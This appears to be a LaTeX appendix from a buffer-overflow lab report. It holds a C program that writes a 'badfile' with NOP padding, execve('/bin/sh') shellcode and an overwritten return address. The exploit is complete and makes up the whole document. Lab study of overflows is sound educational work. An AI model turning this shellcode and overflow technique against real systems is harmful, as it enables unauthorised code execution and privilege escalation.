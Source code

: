 \documentclass[12pt, a4paper, pdflatex]{article}
\begin{document}
\begin{appendices}
\begin{lstlisting}
/* A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

char shellcode[]=
"\x31\xc0"      /* xorl  %eax,%eax   */
"\x50"          /* pushl %eax        */
"\x68""//sh"    /* pushl $0x68732f2f */
"\x68""/bin"    /* pushl $0x6e69622f */
"\x89\xe3"      /* movl  %esp,%ebx   */
"\x50"          /* pushl %eax        */
"\x53"          /* pushl %ebx        */
"\x89\xe1"      /* movl  %esp,%ecx   */
"\x99"          /* cdql              */
"\xb0\x0b"      /* movb  $0x0b,%al   */
"\xcd\x80"      /* int   $0x80       */
;

void main(int argc, char **argv)
{  
	char buffer[517];
	FILE *badfile;
	long fcP;
	int buffer_size, shell_code_size;
	
	buffer_size = sizeof(buffer);
	shell_code_size = sizeof(shellcode);
	
	/* Initialize buffer with 0x90 (NOP instruction) */
	memset(&buffer, 0x90, 517);
	
	/* You need to fill the buffer with appropriate contents here */
	printf("Size of shellcode: %d\n", sizeof(shellcode));
	
	/* Print stack pointer */
	fcP = &buffer;
	
	/* Make sure is multiple of 4 */ 
	while(fcP % 4 != 0) {
	fcP += 1;
	}
	
	printf ("Using Stack pointer at address: %x\n", fcP);
	printf ("Buffer size: %d, shell code size: %d\n", buffer_size, shell_code_size);
	
	/* Compute how far we can palce shell code, we want it towards the end of buffer */
	long address_to_copy_to = fcP + buffer_size - 1 - shell_code_size;
	printf ("I will start writing to %08x\n", address_to_copy_to);
	
	/* We use address of buffer as reference, but we want to jump a bit more into the stack,
	yet not too far */
	fcP += 80;
	
	/* Place the address we want to in a position 
	that would overwrite return address (16 bytes into stack) */
	long addr = fcP;
	long *ptr = (long*)(buffer + 16);
	*(ptr) = addr;
	
	/* Copy shellcode */
	memcpy(address_to_copy_to, shellcode, shell_code_size);
	
	/* Save the contents to the file "badfile" */
	badfile = fopen("./badfile", "w");
	fwrite(buffer, 517, 1, badfile);
	fclose(badfile);
}
\end{lstlisting}

\end{appendices}
\end{document}
